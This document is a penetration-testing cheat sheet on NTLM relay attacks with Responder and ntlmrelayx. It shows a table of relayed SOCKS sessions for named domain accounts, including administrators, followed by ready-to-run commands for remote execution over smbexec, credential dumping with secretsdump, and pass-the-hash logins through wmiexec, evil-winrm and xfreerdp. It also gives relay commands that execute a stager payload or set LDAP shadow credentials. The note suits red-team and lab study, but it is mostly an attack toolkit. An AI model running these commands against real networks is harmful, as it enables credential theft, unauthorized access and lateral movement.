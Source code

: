```yaml
---
category: Uncategorized
tags: []
---
```

#enumeration #relay-enumeration
# Utilizing Sock sessions with Responder and NtlmRelayX

```
ntlmrelayx> socks
Protocol  Target          Username                  Port
--------  --------------  ------------------------  ----
SMB       172.21.48.38   SPAWN/MSIMMONS            445
MSSQL     172.21.48.230  FAERIE/ADMINISTRATOR      1433
MSSQL     172.21.48.230  FAERIE/ROOT               1433
SMB       172.21.48.230  FAERIE/ADMINISTRATOR      445
SMB       172.21.48.230  FAERIE/ALSIMMONS          445
SMTP      172.21.48.225  FAERIEEXCHANGE/SBURKE     25
SMTP      172.21.48.225  FAERIEEXCHANGE/TWILLIAMS  25
IMAP      172.21.48.225  FAERIEEXCHANGE/TMCFARLANE 143
```

# Testing Sock Access from NtlmRelayX: 

## SMB:
Using SMBExec:
- proxychains4  impacket-smbexec SPAWN/MSIMMONS@172.21.48.38
- proxychains4  smbexec.py SPAWN/MSIMMONS@172.21.48.38
Using Smbclient
- proxychains4 impacket-smbclient SPAWN/MSIMMONS@172.21.48.38
- proxychains4 smbclient.py SPAWN/MSIMMONS@172.21.48.38

## Secrets Dump
- proxychains4  impacket-secretsdump SPAWN/MSIMMONS@172.21.48.38
- proxychains4  secretsdump.py SPAWN/MSIMMONS@172.21.48.38

## Pass The Hash:
If you obtain hashes from ntlmrelayx you can use the ntlm hash to gain access to a target using the following scripts or tools: 

Impacket Wmiexec:
- impacket-wmiexec -hashes ' INSERT HASH HERE' administrator@172.21.48.230
- wmiexec.py -hashes ' INSERT HASH HERE' administrator@172.21.48.230

Evil-WinRM:
- evil-winrm -u Administrator -H 'INSERT HASH HERE' -i 172.21.48.230

XfreeRDP: 
- xfreerdp /u:Administrator /pth:'INSERT HASH HERE' /v:172.21.48.230

# Other NtlmRelayX Commands: 
## In Kali:
### SMB
- impacket-ntlmrelayx -socks -smb2support -tf smb-targets.txt -c <Stager/Stageless Payload>
- impacket-ntlmrelayx -socks -smb2support -tf smb-targets.txt -c whoami
### Ldap
- impacket-ntlmrelayx -t ldap://dc.domain.local --shadow-credentials --shadow-target target\$

## Python Impacket: 
### SMB
- ntlmrelayx.py -socks -smb2support -tf smb-targets.txt -c <Stager/Stageless Payload>
- ntlmrelayx.py -tf smb-targets.txt -c whoami
### LDAP
- ntlmrelayx.py -t ldap://dc.domain.local --shadow-credentials --shadow-target target\$

# References: 
- https://www.hackingarticles.in/a-detailed-guide-on-responder-llmnr-poisoning/
-  https://infosecwriteups.com/abusing-ntlm-relay-and-pass-the-hash-for-admin-d24d0f12bea0
-  https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/
- https://www.offsec-journey.com/post/attacking-ms-sql-servers